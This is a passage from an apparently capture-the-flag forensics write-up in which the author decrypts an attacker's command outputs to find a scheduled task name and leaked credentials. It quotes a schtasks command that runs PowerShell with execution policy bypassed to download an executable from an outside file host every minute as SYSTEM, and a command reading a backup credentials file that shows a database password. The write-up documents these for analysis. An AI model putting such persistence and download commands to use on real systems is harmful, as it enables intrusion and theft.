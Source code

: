 # Output the decrypted data to a .txt file
with open("decrypted_output01.txt", "wb") as f:
    f.write(decrypted_data)

print("Decryption complete. The decrypted data is saved to 'decrypted_output01.txt'.")
```

<img src="https://github.com/user-attachments/assets/ac544510-b091-45b9-9ee8-0862a529f230" width="500"> <br/>

<img src="https://github.com/user-attachments/assets/a8326b50-151e-4d1e-8358-947cdbf2babe" width="500"> <br/>


### 5. What is the name of the task scheduled by the attacker?

Decrypted outputs were mostly about system information and things that were being run on the target computed. 
After out through the outputs, I found the one with schtasks (which is used to schedule tasks in Windows). 



```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

C:\Users\dev-support\Desktop>
```

<img src="https://github.com/user-attachments/assets/6bf7d9ab-b083-4b86-97bb-bc9425bb8903" width="500"> <br/>

Flag: ```Synchronization```


### 6. What is the API key leaked from the highly valuable file discovered by the attacker?

The final flag was found in another decrypted .eml file. 

```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0
